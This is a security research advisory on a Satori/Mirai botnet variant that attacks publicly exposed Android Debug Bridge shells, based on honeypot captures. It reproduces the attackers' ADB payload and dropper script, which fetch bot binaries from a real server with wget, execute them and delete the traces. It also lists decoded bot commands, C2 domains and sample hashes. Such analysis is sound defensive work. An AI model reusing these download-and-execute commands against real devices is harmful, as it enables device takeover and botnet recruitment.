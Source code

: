 ```yaml
---
title: Satori/Mirai botnet detected
description: Variant of Satori/Mirai detected attacking public available ADB shells
header: Variant of Satori/Mirai detected attacking public available ADB shells
tags: ['advisories', 'research']
---
```


On the 10th of July at 23:30 UTC we noticed an increased traffic on our [blackhole monitoring](http://sicherheitstacho.eu/start/main) on TCP port 5555. Upon further analysis, we saw a big chunk of this traffic coming from China, USA and the Dominican Republic. In total we gathered **246.434 packets** from **68.361 unique IPs**. Based on the packet details we gathered, we can assume that the packets were generated by a lot of different devices. In addition, the traffic behavior on port 5555 matches the typicall scan behavior of botnets.

<!--more-->

![]({{"/assets/images/adb-botnet-g1.png"|absolute_url}})

### Inspecting the payload and stumbling on old friends

The payload registered and captured by out T-Pot honeypots (35.204) looks like this:

```
CNXN 2 host::OPEN ]+shell:>/sdcard/Download/f && cd /sdcard/Download/;
>/dev/f && cd /dev/; busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs
```

The first chars of this payload are Android Debug Bridge (ADB) commands, used for initiating a connection to a debug channel. This connection is then used to execute a shell command.

Let's examine the command:

```
>/sdcard/Download/f && cd /sdcard/Download/;
```

Short shell builtin for clearing (or touching) the file `>/sdcard/Download/f` and changing to this folder.

```
>/dev/f && cd /dev/;
```

Same as above, just with a different file (and folder).

```
busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs
```

Download `adbs` from dropper server, execute it and remove it. The `rm` is used to cover up tracks and only keep the bot/malware in memory.

Searching for this IP reveals it was already [detected some time ago](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/) in correlation to the Satori botnet.

### Analyzing the dropped file

The downloaded `adbs` shellscript looks like this:

``` 
#!/bin/sh

n="arm.bot.le mips.bot.be mipsel.bot.le arm7.bot.le x86_64.bot.le i586.bot.le i686.bot.le"
http_server="95.215.62.169"

for a in $n
do
    cp /system/bin/sh $a
    >$a
    busybox wget http://$http_server/adb/$a -O -> $a
    chmod 777 $a
    ./$a
done

for a in $n
do
    rm $a
done
```

This is a simple script to download the malware compiled for different architectures and execute them (all one by one). Dirty approach -- but works.

### Another variant of Satori?

Having a deeper look at the downloaded binaries, this looks like another modified version of Mirai or Satori, adjusted to exploit public available ADB devices. Heading over to VirusTotal, only five engines detect this binary (ELF;Mira-RQ) until now. First date of detection: 2018-07-09 09:20.

![]({{"/assets/images/adb-botnet-vt.png"|absolute_url}})

We can find the same `table_unlock` function mentioned in the [previous linked blog article](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/), indicating a variant or at least code shared between the two. Compare this screenshot from the blog post:

![]({{"/assets/images/adb-botnet-tableUnlock2-360.png"|absolute_url}})

With what we can find in the new binary:

![]({{"/assets/images/adb-botnet-tableUnlock2.png"|absolute_url}})

As usualy seen in a Mirai bot, strings are "encrypted" with a simple XOR. Decrypting with `0x31` leads to the following results:

```
LOLNOGTFO – kills bot [1]
KILLATTK - kills any ongoing attacks [1]
GETSPOOFS - ???
GAYFGT – sth. reporting related? [1]
```

And the following domains:
```
i.rippr.cc -> 95.215.62.169 (TXT record)
p.rippr.cc -> 180.101.204.161 (TXT record)
```

[1] Similar commands found [here](http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html) on a  blog.

## Files

```
1. http://95.215.62.169/i686.bot.le - 1eddee13762d7996c02b4c57fa3f8ffc
2. http://95.215.62.169/arm.bot.le - d01f194c374eebb9235291e34bc0d185
3. http://95.215.62.169/arm7.bot.le - d10c1591aee800a5f37f654f1ecd20a8
4. http://95.215.62.169/x86_64.bot.le - 4e4fc7e7599e5bd07e097a2f313486fe
5. http://95.215.62.169/mips.bot.be - a18b0d1401305588107e58054e6aa2ab
6. http://95.215.62.169/mipsel.bot.le - 9689cc9fe613b735fa1d386dffcdd6d8
7. http://95.215.62.169/i586.bot.le - 61f0bad58d28e73d1ef29b9574d28e41
```

## References

* [http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/)
* [http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html](http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html)
